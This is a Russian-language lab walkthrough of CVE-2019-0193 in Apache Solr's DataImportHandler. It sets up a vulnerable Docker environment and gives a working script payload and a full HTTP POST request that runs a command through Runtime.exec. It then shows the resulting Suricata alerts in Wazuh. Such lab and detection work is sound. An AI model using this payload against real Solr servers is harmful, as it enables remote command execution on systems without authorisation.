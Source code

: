 # CVE-2019-0193

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2019-0193](https://nvd.nist.gov/vuln/detail/CVE-2019-0193)
* [https://www.opencve.io/cve/CVE-2019-0193](https://www.opencve.io/cve/CVE-2019-0193)

В Apache Solr DataImportHandler, необязательный, но популярный модуль для получения данных из баз данных и других источников, имеет функцию, благодаря которой вся конфигурация DIH может быть получена из запроса параметра «dataConfig». \[Режим отладки экрана администратора DIH использует это для удобной отладки/разработки конфигурации DIH.

Поскольку конфигурации DIH могут содержать сценарии, злоумышленники могут создавать опасные запросы, которые могут привести к удаленному выполнению команд.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/solr/CVE-2019-0193

Для запуска уязвимой среды выполните команды:

```
docker compose up -d
docker compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

После запуска и создания нового ядра 'test' по адресу http://ваш-ip:8983 будет доступна веб-страница Apache Solr

<figure><img src="../../.gitbook/assets/cve-2019-0193(1).png" alt=""><figcaption></figcaption></figure>

Перейдите на вкладку с новым ядром, затем dataimport -> Debug-Mode и вставьте следующую полезную нагрузку:

```
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

Затем нажмите кнопку `Execute with this Configuration`

<figure><img src="../../.gitbook/assets/cve-2019-0193(2).png" alt=""><figcaption></figcaption></figure>

После этого отправьте следующий запрос для успешной реализации уязвимости:

```
POST /solr/test/dataimport?_=1565835261600&indent=on&wt=json HTTP/1.1
Host: ваш-ip:8983
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: csrftoken=nNI9Q2RFGsJwDdNGaP5HHbW94e3aIVlTBNoKw9DjUnmRikDe4kOOEcTdK6mFnkc8
Upgrade-Insecure-Requests: 1
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://ваш-ip:8983/solr/
Content-Length: 683

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%2Fstackoverflow.com%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport

```

> Перед отправкой замените csrf-токен на ваш собственный

<figure><img src="../../.gitbook/assets/cve-2019-0193(3).png" alt=""><figcaption></figcaption></figure>

После отправки запроса был создан файл /tmp/success

<figure><img src="../../.gitbook/assets/cve-2019-0193(4).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/cve-2019-0193(5).png" alt=""><figcaption></figcaption></figure>

